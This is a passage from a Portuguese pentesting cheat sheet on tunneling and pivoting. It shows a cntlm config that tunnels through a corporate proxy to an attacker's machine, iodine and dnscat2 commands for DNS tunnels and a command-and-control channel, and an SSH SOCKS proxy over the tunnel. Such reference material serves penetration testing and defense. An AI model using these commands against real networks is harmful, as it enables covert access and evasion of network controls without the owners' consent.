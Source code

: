 [http://cntlm.sourceforge.net/](http://cntlm.sourceforge.net/)

Ele se autentica em um proxy e faz bind em uma porta localmente, que é encaminhada ao serviço externo que você especificar. Então você pode usar a ferramenta de sua escolha por meio desta porta.

Exemplo que faz o forward da porta 443

```text
Username Alice 
Password P@ssw0rd 
Domain CONTOSO.COM 
Proxy 10.0.0.10:8080 
Tunnel 2222:<attackers_machine>:443
```

Agora, se você definir, por exemplo na vítima o serviço **SSH** para escutar na porta 443. Você pode se conectar a ele por meio da porta 2222 do invasor.
Você também pode usar o **meterpreter** que se conecta no localhost:443 e o invasor está escutando na porta 2222.

## YARP

Um proxy reverso criado pela Microsoft. Você pode encontrá-lo aqui: [https://github.com/microsoft/reverse-proxy](https://github.com/microsoft/reverse-proxy)

## DNS Tunneling

### Iodine

[https://code.kryo.se/iodine/](https://code.kryo.se/iodine/)

O root é necessário em ambos os sistemas para criar adaptadores tun e tunela dados entre eles usando consultas DNS.

```text
atacante> iodined -f -c -P P@ssw0rd 1.1.1.1 tunneldomain.com
vítima> iodine -f -P P@ssw0rd tunneldomain.com -r
#Você pode ver a vítima no 1.1.1.2
```

O túnel vai ser muito lento. Você pode criar uma conexão SSH comprimida por meio deste túnel usando:

```text
ssh <user>@1.1.1.2 -C -c blowfish-cbc,arcfour -o CompressionLevel=9 -D 1080
```

### DNSCat2

Estabeleça um canal C&C por meio do DNS. Não precisa de privilégios de root.

```bash
atacante> ruby ./dnscat2.rb tunneldomain.com
vítima> ./dnscat2 tunneldomain.com
```

**Tunelamento de portas com dnscat**
